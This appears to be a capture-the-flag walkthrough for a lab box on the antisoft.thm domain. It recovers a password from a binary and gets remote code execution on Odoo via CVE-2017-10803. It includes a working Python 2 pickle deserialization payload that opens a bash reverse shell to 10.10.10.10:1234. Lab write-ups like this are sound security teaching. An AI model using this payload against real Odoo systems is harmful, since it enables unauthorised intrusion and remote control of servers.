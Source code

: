 Contents of "notice.txt":
```
From antisoft.thm security,

A number of people have been forgetting their passwords so we've made a temporary password application.
```
So, we get an org name and a "password" binary. Some basic reversing like running `strings password` gives us an employee id,
which can be used to get the password `SecurePassword123!` (note: the plaintext password can also be retrieved directly)

## SSH
If we try to login with ssh, we get `Permission denied (publickey).` which means password authentication has been disabled.

# Web
We skip our usual gobuster/ffuf by reading the room's info saying:
"No brute-forcing is needed at any point in this box."

## Login
Navigating to the web app, we see [Odoo](https://www.odoo.com/) installed. Now, we can either login with our found password and
using `admin@antisoft.thm` which is simpler but needs some guess work, or by going to "manage database" and creating a new one with our
master password.
![odoo](https://i.imgur.com/bCCn7NI.png)

## Exploitation
Searching for exploits on odoo that can give us remote code exceution, we find "CVE-2017-10803" which matches the installed 
odoo version. Following along with the exploit description, we search and install "Database anonymization" (uncheck the `Apps`).
We anonymize the database and prepare our own payload file with the code below:
```python
import cPickle
import os

class Exploit(object):
	def __reduce__(self):
		return (os.system, (("bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'"),))

with open("exploit.pickle", "wb") as f:
	cPickle.dump(Exploit(), f, cPickle.HIGHEST_PROTOCOL)
```
(Note1: We need to use python2 as pickling is different with python3 and the payload won't work.)

(Note2: If you're using the simple `bash -i` command, it won't work)
